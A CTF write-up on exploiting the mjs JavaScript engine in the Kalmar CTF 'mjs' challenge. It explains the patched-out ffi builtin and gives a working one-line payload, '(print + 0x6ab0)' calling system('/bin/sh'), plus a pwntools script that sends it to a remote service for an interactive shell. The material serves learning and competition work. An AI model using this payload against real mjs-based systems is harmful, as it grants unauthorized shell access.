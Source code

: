 ```yaml
---
title: "Kalmar CTF mjs"
tags: Browser Pwn
style: fill
color: warning
comments: true
description: kalmar ctf web browser exploitation challenge
---
```


# mjs
This web browser challenge provides a github repository, which can be found [here](https://github.com/cesanta/mjs), some browser binary and scripts, and a docker file.

### Remark
This was my first web browser exploitation. It includes, but not limited to, binary, javascript, and engine knowledge.
It took a bit to figure out the inner structures, how they worked together, and where to look at. 
However, once I figured out where to look at, the challenge became pretty straight forward and even seemed easy.

## Analysis
This challenge seems to be using a restricted javascript engine to restrict API calls, so I took a look at the repository to see which calls are allowed.
These are the API calls I can utilize. 
```javascript
print(arg1, arg2, ...);
load('file.js', obj);
die(message);
let value = JSON.parse(str);
let str = JSON.stringify(value);
let proto = {foo: 1}; let o = Object.create(proto);
'some_string'.slice(start, end);
'abc'.at(0);
'abc'.indexOf(substr[, fromIndex]);
chr(n);
let a = [1,2,3,4,5]; a.splice(start, deleteCount, ...);
let s = mkstr(ptrVar, length);
let s = mkstr(ptrVar, offset, length, copy = false);
let f = ffi('int foo(int)');
gc(full);
```

Unzipping the challenge file gives a python code that runs on the server that takes in user input and opens a subprocess ```./mjs``` and executes the input as a javascript code.

The usage of the mjs binary locally looks like:
```bash
./mjs ./test.js
```
where test.js is the javascript file that I want to execute locally.
So if my test.js looks like this:
```javascript
function hello() {
    print("hello world");
}

hello();
1;
```
Then the output will look like:
```bash
hello world
1
```

So I pretty much can execute arbitrary codes on the server as long as they comply with the restrictive engine/within the API list.

Taking a look at ```diff.patch```, it gives a pretty interesting info.
```markdown
diff --git a/Makefile b/Makefile
index d265d7e..d495e84 100644
--- a/Makefile
+++ b/Makefile
@@ -5,6 +5,7 @@ BUILD_DIR = build
 RD ?= docker run -v $(CURDIR):$(CURDIR) --user=$(shell id -u):$(shell id -g) -w $(CURDIR)
 DOCKER_GCC ?= $(RD) mgos/gcc
 DOCKER_CLANG ?= $(RD) mgos/clang
+CC = clang
 
 include $(SRCPATH)/mjs_sources.mk
 
@@ -81,7 +82,7 @@ CFLAGS += $(COMMON_CFLAGS)
 # NOTE: we compile straight from sources, not from the single amalgamated file,
 # in order to make sure that all sources include the right headers
 $(PROG): $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) $(TOP_HEADERS) $(BUILD_DIR)
-	$(DOCKER_CLANG) clang $(CFLAGS) $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) -o $(PROG)
+	$(CC) $(CFLAGS) $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) -o $(PROG)
 
 $(BUILD_DIR):
 	mkdir -p $@
diff --git a/src/mjs_builtin.c b/src/mjs_builtin.c
index 6f51e08..36c2b43 100644
--- a/src/mjs_builtin.c
+++ b/src/mjs_builtin.c
@@ -137,12 +137,12 @@ void mjs_init_builtin(struct mjs *mjs, mjs_val_t obj) {
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_load));
   mjs_set(mjs, obj, "print", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_print));
-  mjs_set(mjs, obj, "ffi", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_call));
-  mjs_set(mjs, obj, "ffi_cb_free", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_cb_free));
-  mjs_set(mjs, obj, "mkstr", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_mkstr));
+  /* mjs_set(mjs, obj, "ffi", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_call)); */
+  /* mjs_set(mjs, obj, "ffi_cb_free", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_cb_free)); */
+  /* mjs_set(mjs, obj, "mkstr", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_mkstr)); */
   mjs_set(mjs, obj, "getMJS", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_get_mjs));
   mjs_set(mjs, obj, "die", ~0,
@@ -151,8 +151,8 @@ void mjs_init_builtin(struct mjs *mjs, mjs_val_t obj) {
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_do_gc));
   mjs_set(mjs, obj, "chr", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_chr));
-  mjs_set(mjs, obj, "s2o", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_s2o));
+  /* mjs_set(mjs, obj, "s2o", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_s2o)); */
 
   /*
    * Populate JSON.parse() and JSON.stringify()
diff --git a/src/mjs_exec.c b/src/mjs_exec.c
index bd48fea..24c2c7c 100644
--- a/src/mjs_exec.c
+++ b/src/mjs_exec.c
@@ -835,7 +835,7 @@ MJS_PRIVATE mjs_err_t mjs_execute(struct mjs *mjs, size_t off, mjs_val_t *res) {
 
           *func = MJS_UNDEFINED;  // Return value
           // LOG(LL_VERBOSE_DEBUG, ("CALLING  %d", i + 1));
-        } else if (mjs_is_string(*func) || mjs_is_ffi_sig(*func)) {
+        } else if (mjs_is_ffi_sig(*func)) {
           /* Call ffi-ed function */
 
           call_stack_push_frame(mjs, bp.start_idx + i, retval_stack_idx);
```

The author commented out calls to mjs_set with ```ffi``` argument.

I looked up ffi and it gave me: Detailed info [here](https://hackage.haskell.org/package/threepenny-gui-0.9.4.0/docs/Foreign-JavaScript.html#:~:text=A%20JavaScript%20foreign%20function%20interface,used%20internally%20by%20the%20Graphics.)
```
"This module implements a web server that communicates with a web browser and allows you to execute arbitrary JavaScript code on it."
```

So my idea was, to pop a shell, I would need to call ```ffi``` to run C code and execute ```system```.

### Dynamic
I started interacting with mjs with gdb. 
Since I could call print, I can print addresses of functions like:
```javascript
print(print);
```
And within gdb, print is mjs_print and ffi is mjs_ffi_call, I figured out their actual names by referencing the souce in git repository.

I cannot call ffi directly, but I can call ffi using ```(print + offset)```, which I believe is the intended vuln. And I can calculate offset using gdb.

## Exploitation
The explotation is fairly simple, as we only have to call ffi using the right offset and the right calling convention, which was a bit tricky to figure out.

But locally, we just need one line:
```python
(print + 0x6ab0)('int system(char *)')('/bin/sh');
```

And for remote, we just supply "EOF" at the end to run.
```python
#!/usr/bin/python3
from pwn import *
context.log_level='debug'
context.arch='amd64'
#context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
p=remote('127.0.0.1', 10002)
ru 		= lambda a: 	p.readuntil(a)
r 		= lambda n:		p.read(n)
sla 	= lambda a,b: 	p.sendlineafter(a,b)
sa 		= lambda a,b: 	p.sendafter(a,b)
sl		= lambda a: 	p.sendline(a)
s 		= lambda a: 	p.send(a)
# gdb.attach(p)

sla('End with "EOF":\n', "print((print + 0x6ab0)('int system(char *)')('/bin/sh'));\nEOF")

p.interactive()
```
One line is all we need. 

## Notes
The exploitation logic isn't that complex. To solve this challenge, I had to learn some basic javascript and what to expect in terms of how the server behaves relating to my requests- which I believe is the fundamentals of web browser exploitation.

I think this was a fairly neat challenge for beginners of web browser exploitation. It also reminded me of seccomp and sandbox escaping challenges.

Thank you!

079
